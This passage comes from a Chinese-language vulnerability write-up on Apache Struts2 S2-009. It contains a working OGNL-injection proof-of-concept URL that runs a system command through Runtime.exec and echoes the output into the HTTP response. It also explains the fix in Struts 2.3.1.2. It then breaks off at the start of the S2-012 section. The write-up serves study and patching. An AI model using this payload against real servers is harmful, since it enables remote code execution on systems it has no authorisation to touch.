 <img src="pic/struts2_s2-009_7.png">

### 可回显PoC

```
/example5.action?name=(#_memberAccess.allowStaticMethodAccess=true,
#context['xwork.MethodAccessor.denyMethodExecution']=false,
#ret=@java.lang.Runtime@getRuntime().exec('id'),
#br=new java.io.BufferedReader(new java.io.InputStreamReader(#ret.getInputStream())),
#res=new char[20000],
#br.read(#res),
#writer=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),
#writer.println(new java.lang.String(#res)),
#writer.flush(),
#writer.close())
&z[(name)(fuck)]
```

<img src="pic/struts2_s2-009_9.png">

## 漏洞修复

Struts2 `2.3.1.2`版本，依赖的XWork版本也是`2.3.1.2`，在拦截器`ParametersInterceptor`中，对请求参数名的合法性校验进行了增强，即增强了正则表达式。

<img src="pic/struts2_s2-009_10.png">

另外，还将`ParametersInterceptor`中的`newStack.setValue()`替换为`newStack.setParameter()`方法调用，在`OgnlValueStack#setParameter()`方法中，会通过`boolean`标志位去禁止OGNL表达式计算的。

<a name="s2-012"></a>
## S2-012

官方漏洞公告：<br>
https://cwiki.apache.org/confluence/display/WW/S2-012
